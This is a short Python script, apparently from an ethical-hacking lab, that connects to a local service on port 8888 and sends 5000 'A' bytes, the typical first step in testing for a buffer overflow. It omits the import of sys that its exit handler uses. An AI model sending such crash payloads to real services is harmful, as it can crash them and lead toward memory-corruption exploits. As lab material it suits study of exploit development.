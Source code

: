 `import socket`
`import signal`

`def def_handler(sig, frame):`
    `print("\n\n[!] Quitting...\n")`
    `sys.exit(1)`

`# Ctrl+C`
`signal.signal(signal.SIGINT, def_handler)`

`#Global attributes`
`ip_address="127.0.0.1"`
`payload = b"A"*5000`


`def makeConnection():`

    `s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)`
    `s.connect((ip_address, 8888))`
    `s.send(payload)`


`if __name__=='__main__':`
    `makeConnection()`

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324133352.png)